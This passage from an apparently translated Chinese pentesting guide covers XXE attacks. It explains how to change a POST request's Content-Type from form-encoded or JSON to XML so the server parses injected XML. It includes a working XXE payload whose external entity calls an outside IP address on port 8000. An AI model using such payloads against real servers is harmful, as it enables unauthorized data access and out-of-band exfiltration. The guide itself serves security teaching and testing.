 影响有限，有以下原因：

-   仅限于同一 Origin
-   HTML 页面能打破 xml 结构
-   不支持动态实体
-   我曾想过使用 utf-16 xml 来避免破坏 xml 结构，但我没有成功。

但至少能读取到 J JSON 文件。

#### [Content-Type: From x-www-urlencoded to XML](#toc_content-type-from-x-www-urlencoded-to-xml)

如果 POST 请求接受 XML 格式的数据，您可以尝试利用该请求中的 XXE。例如，如果正常请求包含以下内容：

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

然后您可以提交以下请求，结果相同：

```plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

#### [Content-Type: From JSON to XEE](#toc_content-type-from-json-to-xee)

这个地方需要更改请求，可以使用名为“Content Type Converter”的 Burp 插件。例如：

```plain
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

可通过插件转换成：

```plain
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```
